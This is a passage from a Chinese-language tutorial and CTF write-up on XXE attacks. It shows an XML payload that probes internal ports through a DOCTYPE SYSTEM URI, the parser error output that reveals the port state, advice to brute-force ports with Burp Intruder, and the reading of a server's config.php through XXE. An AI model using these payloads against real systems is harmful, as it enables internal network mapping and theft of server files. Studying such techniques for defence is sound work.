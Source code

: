 上述脚本，是向内网主机发送xml，利用xxe

> 为什么，这个resource会返回信息
>
> --- php文件包含

### 4.4 内网主机端口扫描

找到了一台内网主机，想知道攻击点在哪里，还需要进行端口扫描。端口扫描的脚本主机探测几乎没什么变化，只需要把ip固定，循环遍历端口即可。一般我们是通过响应长短来判断是否开放。除了这种，还可以结合burp进行端口探测。

比如我们传入：

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>

```

返回结果

```
javax.xml.bind.UnmarshalException  
 - with linked exception:
[Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
Exception Description: An error occurred unmarshalling the document  
Internal Exception: ████████████████████████: Connection refused

```

然后结合burp intruder进行爆破即可。

至此，我们已经有能力对整个网段进行全面的探测，并能得到内网服务器的一些信息。如果内网的服务器有漏洞，并且恰好利用方式在服务器支持的协议的范围内的话，我们就能直接利用 XXE 打击内网服务器甚至能直接getshell

### 4.5 内网盲注(CTF)

总体上来讲， 是利用XXE进行内网的SQL盲注。

首先在外网的一台ip为39.107.33.75:33899的评论框处测试发现 XXE 漏洞，我们输入 xml 以及 dtd 会出现报错。既然如此，尝试读取服务器上面的文件，我们先读配置文件。

```
/var/www/52dandan.cc/public_html/config.php

```

拿到第一部分flag

```php
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>

```

